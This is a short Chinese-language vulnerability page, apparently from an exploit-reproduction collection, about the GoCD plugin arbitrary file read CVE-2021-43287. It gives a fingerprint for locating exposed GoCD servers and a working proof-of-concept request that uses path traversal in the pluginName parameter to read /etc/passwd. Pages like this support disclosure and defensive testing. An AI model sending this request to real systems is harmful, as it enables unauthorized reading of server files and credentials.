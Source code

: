# GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

<a-checkbox checked>GoCD</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Create a pipeline - Go"</a-checkbox></br>

## 漏洞复现	

主页面

![img](../../../.vuepress/public/img/1636434942043-e6504dd1-b77e-4e24-b4d9-53721500b5d7.png)

验证POC

```php
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![img](../../../.vuepress/public/img/1636435040571-3f50c183-822e-4680-a15c-8d2bf7268161.png)